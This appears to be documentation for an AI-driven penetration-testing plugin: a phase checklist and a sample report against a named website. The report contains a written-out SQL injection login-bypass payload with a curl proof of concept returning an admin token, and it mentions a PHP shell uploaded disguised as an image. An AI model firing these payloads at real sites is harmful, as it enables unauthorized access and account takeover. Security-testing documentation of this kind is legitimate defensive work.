 ### 3. Exploitation
- SQL injection attempts
- XSS payload testing
- CSRF token bypass
- Authentication mechanism testing
- Authorization boundary testing

### 4. Post-Exploitation
- Privilege escalation paths
- Lateral movement opportunities
- Data access verification
- Persistence mechanisms

## Example Report

```
PENETRATION TEST REPORT
=======================
Target: https://stokedautomations.com
Date: 2025-10-11
Tester: Claude Penetration Testing Plugin

EXECUTIVE SUMMARY
-----------------
Risk Rating: HIGH
Critical Findings: 2
High Findings: 4
Medium Findings: 8

CRITICAL FINDINGS
-----------------

1. SQL Injection in Login Form
   Location: /api/auth/login
   Method: POST
   Parameter: username

   Exploitation:
   POST /api/auth/login
   username=' OR '1'='1' --&password=anything

   Result: Authentication bypass successful
   Impact: Complete database access, user account takeover

   Proof of Concept:
   curl -X POST https://stokedautomations.com/api/auth/login \
     -d "username=' OR '1'='1' --&password=test"

   Response: {"token": "eyJhbGc...", "user": "admin"}

   Remediation:
   - Use parameterized queries
   - Implement input validation
   - Add WAF rules
   - Code: db.query('SELECT * FROM users WHERE username = ?', [username])

2. Remote Code Execution via File Upload
   Location: /api/upload
   Method: POST
   Parameter: file

   Exploitation:
   Uploaded PHP shell disguised as image
```